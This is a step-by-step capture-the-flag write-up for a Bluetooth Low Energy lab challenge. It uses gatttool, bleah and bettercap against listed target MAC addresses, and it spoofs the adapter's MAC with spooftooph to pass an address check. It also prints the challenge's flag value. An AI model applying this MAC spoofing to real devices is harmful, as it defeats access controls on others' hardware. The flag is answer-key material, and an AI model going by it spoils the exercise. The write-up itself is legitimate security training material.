


## Flag 3

Here are the target devices for reference:

1. 08:3A:F2:7D:65:8A
2. 94:B9:7E:FA:27:72
3. 94:B9:7E:F9:21:B6
4. 94:B9:7E:FA:71:F2
5. 94:B9:7E:FA:2A:42
6. 4C:EB:D6:75:4E:B6
7. 94:B9:7E:DA:08:56

### Navigate to Flag 3 Challenge

Navigate to challenge 3 by writing `0x0003` to handle `0x0030`
```
gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x0030 -n 0003
```

⚠️ Retry the command and/or replugging in the dongle until we get the following message:
```
Characteristic Write Request failed: Request attribute has encountered an unlikely error
```

### View Gatt Table

Use `bleah` to enumerate its characteristics again.
```
$ sudo bleah -b 94:B9:7E:FA:27:72 -e
```



We can see that it is looking for a device with the MAC address `11:22:33:44:55:66` to connect to it.

## View the Interface MAC Address

Use `hciconfig` to view the MAC address of the interface.


### Spooftooph

We can spoof our mac address with the tool `spooftooph`. (Make sure to use `sudo`)
```
$ sudo spooftooph -i hci0 -a 11:22:33:44:55:66
```


Once we have done this, we need to reset the interface for the changes to take.
```
$ sudo hciconfig hci0 reset
```
Now `hciconfig` should show the new MAC.


### Read the Gatt Table with Spoofed MAC

Using `bettercap` with the spoofed MAC we can now read the flag: `0ad3fe0c58e0a47b8afb`.



### Submit the Flag
Submit the flag with `gatttool`.

```bash
$ gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x002e -n $(echo -n "0ad3fe0c58e0a47b8afb" | xxd -ps)
Characteristic value was written successfully
```

### Check Your Score

Navigate to the scoreboard .

```bash
$ gatttool -b 94:B9:7E:FA:27:72 --char-write-req -a 0x0030 -n 0000
```
⚠️ Retry the command and/or replugging in the dongle until we get the following message:
```
Characteristic value was written successfully
```

Use bleah to check the scoreboard.
```
$ sudo bleah -b 94:B9:7E:FA:27:72 -e
